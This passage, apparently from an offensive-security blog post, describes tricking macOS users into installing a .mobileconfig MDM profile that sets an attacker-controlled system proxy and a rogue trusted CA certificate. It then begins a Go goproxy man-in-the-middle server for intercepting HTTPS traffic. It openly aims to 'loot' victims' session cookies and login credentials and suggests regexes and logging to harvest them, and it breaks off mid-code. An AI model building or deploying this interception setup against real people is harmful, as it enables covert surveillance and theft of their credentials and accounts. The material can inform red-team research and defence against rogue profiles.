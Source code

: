 ## So What?
A user can click on a `.mobileconfig` file to launch an installation wizard which will apply the attacker-controlled configuration settings to their device. Interestingly, they're not currently restricted by Gatekeeper in anyway. At the time of writing, there are no signing or notarization requirements for MDM profiles (to my knowledge). However, there is an interesting UI/UX quirk that works in favor of attackers to increase the odds of a successful installation if you do choose to sign.

## What's The Plan?
Let's build an MDM profile that sets a system wide HTTP proxy so that we can read their web traffic. Additionally, let's add our own rogue CA certificate to their Keychain, which will be trusted system wide. This will allow us to intercept HTTPS traffic without their browser throwing nasty errors. Our proxy should dump their requests for inspection, so that we can loot session cookies and credentials from it.

## Constructing The Proxy Server
There's a great Go library called [goproxy](https://github.com/elazarl/goproxy) that makes it trivial to create custom proxy applications. Let's modify one of the examples to dump requests that pass through the proxy. This will let us inspect the victim's cookies and POST data (which will include credentials for login endpoints). There's a lot of capability that can be built out here to make harvesting loot easier. Write regexes for POSTs to particular domains:uri pairs to pull out passwords. Log cookies to a database and send yourself a notification when a new session is detected for a domain you're interested in, etc. But for the sake of example, let's keep it simple.

```golang
package main

import (
	"crypto/tls"
	"crypto/x509"
	"flag"
	"io/ioutil"
	"log"
	"net/http"
	"fmt"
	"github.com/elazarl/goproxy"
	"net/http/httputil"
)

func setCA(caCert, caKey []byte) error {
	goproxyCa, err := tls.X509KeyPair(caCert, caKey)
	if err != nil {
		return err
	}
	if goproxyCa.Leaf, err = x509.ParseCertificate(goproxyCa.Certificate[0]); err != nil {
		return err
	}
	goproxy.GoproxyCa = goproxyCa
	goproxy.OkConnect = &goproxy.ConnectAction{Action: goproxy.ConnectAccept, TLSConfig: goproxy.TLSConfigFromCA(&goproxyCa)}
	goproxy.MitmConnect = &goproxy.ConnectAction{Action: goproxy.ConnectMitm, TLSConfig: goproxy.TLSConfigFromCA(&goproxyCa)}
	goproxy.HTTPMitmConnect = &goproxy.ConnectAction{Action: goproxy.ConnectHTTPMitm, TLSConfig: goproxy.TLSConfigFromCA(&goproxyCa)}
	goproxy.RejectConnect = &goproxy.ConnectAction{Action: goproxy.ConnectReject, TLSConfig: goproxy.TLSConfigFromCA(&goproxyCa)}
	return nil
}

func main() {
	verbose := flag.Bool("v", false, "should every proxy request be logged to stdout")
	addr := flag.String("addr", ":443", "proxy listen address")
	certPath := flag.String("cert", "cert.crt", "Path to CA certificate")
```